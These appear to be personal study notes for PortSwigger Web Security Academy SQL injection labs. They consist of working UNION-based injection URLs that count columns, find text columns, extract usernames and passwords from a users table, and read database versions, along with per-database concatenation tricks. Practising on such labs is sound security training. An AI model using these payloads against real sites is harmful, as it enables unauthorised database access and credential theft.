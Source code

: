 - Checking how many columns we get (starting with ORDER BY 1 - no error, and on 4 we get an error):

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Accessories%27+order+by+4+--
```

- So considering we get 3 columns:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Accessories%27+union+select+null,null,null+--
```

#### Lab: SQL injection UNION attack, finding a column containing text
- First find out how many columns using `'+ORDER+BY+1+--`, 2, 3, (4 will fail), and next we could try to solve challenge:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Lifestyle%27+union+select+null,%272BrGR0%27,null+--
```

#### Lab: SQL injection UNION attack, retrieving data from other tables

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Lifestyle%27+union+select+username,password+from+users+--
```

#### Lab: SQL injection UNION attack, retrieving multiple values in a single column

*Some tricks:*

- Oracle	`'foo'||'bar'`
- Microsoft	`'foo'+'bar'`
- PostgreSQL	`'foo'||'bar'`
- MySQL	`'foo' 'bar'` [Note the space between the two strings], `CONCAT('foo','bar')`

*Example:* `' UNION SELECT username || '~' || password FROM users--`

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Corporate+gifts+%27+union+select+null,username+||+%27~%27+||+password+from+users+--
```

#### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

- Key here was the type of db (and we need to use another symbols for a comment)

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Food+%26+Drink+%27+union+select+@@version,%27def%27+--+-
```

#### Lab: SQL injection attack, listing the database contents on non-Oracle databases
